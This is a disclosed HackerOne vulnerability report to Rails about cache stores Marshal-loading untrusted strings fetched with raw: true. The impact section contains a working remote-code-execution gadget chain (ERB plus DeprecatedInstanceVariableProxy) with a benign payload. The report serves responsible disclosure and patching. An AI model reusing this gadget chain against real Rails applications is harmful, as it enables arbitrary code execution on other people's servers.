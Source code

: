 # Untrusted strings that are cache fetched with raw option are automatically marshal loaded

## Report Details
- **Report ID**: 413388
- **URL**: https://hackerone.com/reports/413388
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-24T12:58:49.441Z
- **Disclosed**: 2020-05-26T22:38:29.197Z

## Reporter
- **Username**: dylan-ts
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
This vulnerability effects application code that caches a string from an untrusted source using the `raw: true` option. For example, vulnerable application code might looks something like the following

```ruby
body = Rails.cache.fetch(key, raw: true, expires_in: ttl) do
  res = Net::HTTP.get_response(remote_uri)
  res.value # raise on HTTP error
  res.body
end
```

where `res.body` represents the untrusted string in the example above.  The below script shows that an untrusted string in the Marshal format will be deserialized when read using `raw: true`.

```ruby
require 'rails/all'

untrusted_string = Marshal.dump(:sym)

cache = ActiveSupport::Cache::MemCacheStore.new('localhost')
cache.delete("demo")
data = cache.fetch("demo", raw: true) { untrusted_string }
p data # "\x04\b:\bsym"
data = cache.fetch("demo", raw: true)
p data # :sym
```

This vulnerability appears to have been around for a long time, so would affect all currently supported versions of rails. I've tested with the earliest and latest supported rails version, 4.2.10 and 5.2.1 and both are affected.

The vulnerability affects both MemCacheStore and RedisCacheStore cache backends that are a part of rails, but cache stores developed outside of rails could also be vulnerable. For instance, the memcached_store has the same vulnerability as a result of replicating the behaviour of MemCacheStore.

I've attached patches to fix MemCacheStore and RedisCacheStore on master.  I believe the MemCacheStore patch can be backported, since Dalli uses memcached's flags to tag keys that need marshal loading (since [Dalli version 0.11.0](https://github.com/petergoldstein/dalli/blob/master/History.md#0110)) so can avoid unmarshalling raw strings.  However, backporting RedisCacheStore could cause backwards compatibility problems with application code that writes and reads a cache key with a different raw option value, so I've included a patch to deprecate that usage in rails 5.2.

## Impact

As has been demonstrated in the past, Marshal.load of an untrusted string can lead to remote code execution when done in rails without any reliance on application code.

The following script demonstrates that this is still the case and shows that a generic exploit payload can be used.

```ruby
require 'erb'
require 'rails/all'

remote_code = <<-RUBY
puts 'HACKED'
RUBY

erb = ERB.allocate
erb.instance_variable_set(:@src, remote_code)
erb.instance_variable_set(:@lineno, 0)
deprecation = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
exploit_data = Marshal.dump(deprecation)

obj = Marshal.load(exploit_data)
obj.is_a?(ActiveSupport::Cache::Entry)
```

So a generic exploit payload could be provided to applications to try to find if the application stores and fetches raw strings from the cache.

## Attachments
- 0001-master-MemCacheStore-patch.diff.txt
- 0002-master-RedisCacheStore-patch.diff.txt
- 0002-rails-5.2-deprecate-marshal-load-on-raw-cache-values.diff.txt
